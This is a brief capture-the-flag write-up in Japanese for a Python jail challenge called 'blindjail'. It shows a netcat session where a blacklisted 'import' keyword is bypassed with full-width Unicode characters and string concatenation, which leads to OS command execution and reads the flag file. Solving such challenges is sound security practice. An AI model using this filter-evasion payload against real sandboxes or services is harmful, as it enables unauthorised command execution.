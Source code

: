 # blindjail:misc:50pts
There is no escape, sometimes going in blind makes other attributes stronger.  
`nc 34.100.177.188 1337`  

# Solution
ncでの接続先が渡される。  
```bash
$ nc 34.100.177.188 1337
-------------------------------------------------------------
 WELCOME TO THE BLINDJAIL
 --------------------------------------------------------
  fret not that you cannot see, fret that you cannot leave.
>>> print(1)
1
>>> __import__("os").system("ls")
 Nope,  import  is banned!
>>>
```
pythonのjailのようだが、importなどいくつかのブラックリストがある。  
このような場合、全角と文字列結合でバイパスする。  
```bash
$ nc 34.100.177.188 1337
-------------------------------------------------------------
 WELCOME TO THE BLINDJAIL
 --------------------------------------------------------
  fret not that you cannot see, fret that you cannot leave.
>>> __ｉｍｐｏｒｔ__("o"+"s").ｓｙｓｔｅｍ("ls")
flag.txt
main.py
>>> __ｉｍｐｏｒｔ__("o"+"s").ｓｙｓｔｅｍ('c'+'at f'+'lag.txt')
nitectf{sl1d3_0ver_th3se_4ttribut3s}
```
flagが得られた。  

## nitectf{sl1d3_0ver_th3se_4ttribut3s}